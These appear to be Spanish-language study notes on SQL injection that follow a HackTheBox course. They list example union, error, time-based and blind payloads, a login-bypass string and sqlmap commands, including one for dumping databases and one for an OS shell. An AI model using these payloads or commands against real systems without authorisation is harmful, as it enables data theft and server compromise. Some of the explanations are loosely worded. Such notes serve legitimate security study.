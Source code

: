 # SQL Injection

## SQL Injection Fundamentals
- Una inyección SQL es una vulnerabilidad de seguridad que permite a un atacante interferir con las consultas que una aplicación web realiza a su base de datos SQL.
- La inyección SQL se produce cuando se insertan datos no validados en una consulta SQL.
- La inyección SQL puede ser utilizada para leer, modificar y eliminar datos de una base de datos.
- La inyección SQL puede ser utilizada para ejecutar comandos en el sistema operativo.
- Hay diferentes tipos de inyecciones SQL, como la inyección SQL basada en errores, la inyección SQL basada en tiempo y la inyección SQL ciega.
![](https://academy.hackthebox.com/storage/modules/33/types_of_sqli.jpg)
    - union based SQL injection
        - ejemplo de payload: `1' UNION SELECT 1,2,3 --`
    - error based SQL injection
        - ejemplo de payload: `1' AND 1=CONVERT(int, (SELECT @@version)) --`
    - time based SQL injection
        - ejemplo de payload: `1' AND IF(1=1, SLEEP(5), 0) --`
    - blind SQL injection
        - ejemplo de payload: `1' AND SLEEP(5) --`

### Deteccion de SQL Injection
- Generalmente al poner un `'` en un campo de texto y si la aplicación devuelve un error de SQL, es probable que sea vulnerable a SQL Injection.
- También se puede poner un comentario `--` como intento de primer payload.
- Otra forma de detectar SQL Injection es mediante la inyección de comandos SQL en los campos de texto y observar si la aplicación devuelve resultados inesperados.
    - **"Error: near line 1: near "'": syntax error"** es un mensaje de error común que se obtiene cuando se inyecta un `'` en un campo de texto.
    - Ejemplo: `1' OR '1'='1`

### Login Bypass SQL Injection
- La inyección SQL se puede utilizar para eludir la autenticación de un sistema.
- Ejemplo de payload: `admin' OR '1'='1`
    - Si el usuario y la contraseña son correctos, la consulta SQL se verá así: `SELECT * FROM users WHERE username='admin' AND password='password'`
    - Esto genera una tautología que siempre es verdadera, entonces la va a tomar como verdadera y va a permitir el acceso.
![](https://academy.hackthebox.com/storage/modules/33/or_inject_diagram.png)

## SQLMAP
- SQLMAP es una herramienta de prueba de penetración de código abierto que automatiza el proceso de detección y explotación de vulnerabilidades de inyección SQL.

### Comandos generales
- `sqlmap -u URL --dbs` para listar las bases de datos.
- `sqlmap -r HTTP-REQUEST-FILE --dbs` para usar un archivo con la request.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch` para usar un archivo con la request y no hacer preguntas.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch --level=5 --risk=3` para usar un archivo con la request y no hacer preguntas, con nivel de riesgo y nivel de profundidad.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch --level=5 --risk=3  --current-user --current-db --is-dba` para usar un archivo con la request y no hacer preguntas, con nivel de riesgo y nivel de profundidad, y obtener información del usuario actual, base de datos actual y si es DBA.

#### Anti-CSRF Token
- Si la aplicación web utiliza tokens CSRF, se puede usar el parámetro `--csrf-token` para especificar el token CSRF.
- Ejemplo: `sqlmap -u URL --csrf-token=CSRF-TOKEN --dbs`
- `sqlmap -u URL --randomize=rp --dbs` para randomizar el token CSRF.
- `sqlmap -u URL --eval="import time; time.sleep(10)" --csrf-token=CSRF-TOKEN --dbs` para evaluar un script de python y dormir el tiempo que se le pase como argumento.

#### OS shell
- `sqlmap -u URL --os-shell` para obtener una shell en el sistema operativo.